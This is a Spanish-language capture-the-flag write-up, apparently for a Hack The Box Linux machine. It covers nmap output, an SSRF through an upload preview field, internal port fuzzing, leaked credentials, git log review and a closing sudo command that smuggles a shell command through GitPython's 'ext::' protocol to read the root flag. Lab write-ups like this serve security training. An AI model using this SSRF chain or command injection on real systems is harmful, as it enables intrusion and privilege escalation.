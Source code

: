 #Linux #Easy #fuzzing 

### Ping

```python
ping -c 1 10.10.11.20
PING 10.10.11.20 (10.10.11.20) 56(84) bytes of data.
64 bytes from 10.10.11.20: icmp_seq=1 ttl=63 time=153 ms

--- 10.10.11.20 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 153.031/153.031/153.031/0.000 ms
```

### TTL 63 = Linux

### nmap

```python
# Nmap 7.94SVN scan initiated Sat Jun 15 15:36:17 2024 as: nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn -oN Scan 10.10.11.20
Nmap scan report for 10.10.11.20
Host is up (0.15s latency).
Not shown: 64695 closed tcp ports (reset), 838 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 15 15:36:45 2024 -- 1 IP address (1 host up) scanned in 28.66 seconds
```

### Enumeración del puerto 80 (http)
tenemos una web donde podemos obtener información de varios parámetros. en este caso el parámetro interesante es el del botón de `Preview`
![[Pasted image 20240616140746.png]]

### BurpSuite
llenamos los campos y subimos un archivo malicioso. interceptamos la petición con busquita y la enviamos al repeater para enviarla. obtenemos una ruta de `uploads` 
![[Pasted image 20240615182300.png]]

### Servidor
obtenemos una solicitud de estado 200 lo que quiere decir que es correcta

![[Pasted image 20240616144920.png]]

`uploads`
miramos el `endpoint` que obtuvimos pero no podemos ver nada en el uploads lo que me hace pensar que es una petición interna
![[Pasted image 20240616144515.png]]

### SSRF
Un **Server-side Request Forgery (SSRF)** ocurre cuando un atacante manipula una aplicación **del lado del servidor** para realizar **solicitudes HTTP** a un dominio de su elección. Esta vulnerabilidad expone al servidor a solicitudes externas arbitrarias dirigidas por el atacante.

### Petición
vamos a realizar la petición nuevamente pero apuntando al local host 
![[Pasted image 20240616145730.png]]

### Burpsuite
guardaremos esta petición en un archivo llamado req.txt
![[Pasted image 20240616145842.png]]

### Fuzzing con ffuf
agregamos la palabra `PORT` después de la URL para indicarle a ffuf el parámetro en donde queremos hacer el Fuzzing 
![[Pasted image 20240616150216.png]]

`ffuf`
logramos encontrar el puerto 5000 abierto internamente en la maquina así que vamos a apuntar hacia el
![[Pasted image 20240616145959.png]]

### Burpsuite
hacemos una nueva petición y la interceptamos pero esta vez apuntando al `http://127.0.0.1:5000` esto nos regresa una ruta asi que vamos hacer un `curl` para saber que es esto
![[Pasted image 20240616150554.png]]

`curl`
tenemos varios `endpoint` debemos mirar en todos hasta conseguir algo interesante 
![[Pasted image 20240616143849.png]]

`author`
este `endpoint` contiene credenciales sobre un usuario. 
![[Pasted image 20240616144144.png]]

### ssh
conseguimos acceso a la maquina vía ssh
![[Pasted image 20240616151233.png]]

### Escalada de privilegios
tenemos in `.git` parece que todo es un repositorio. debemos investigarlo
![[Pasted image 20240616162402.png]]

`logs`
en esta parte vemos un par de commits que se han generado así que podemos leerlos para ver los cambios
![[Pasted image 20240616165138.png]]

`git show`
con este comando podemos pasar el git 
![[Pasted image 20240616165916.png]]

### User Pivoting
hemos conseguido movernos lateralmente al usuario `prod`
`NOTA`: el usuario prod tiene permisos para ejecutar el script `clone_prod_change_py` este script es vulnerable a una ejecución arbitraria de comando por lo que nos aprovechamos para leer la flag

```python
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"
```

![[Pasted image 20240616170350.png]]

### WE ARE ROOT
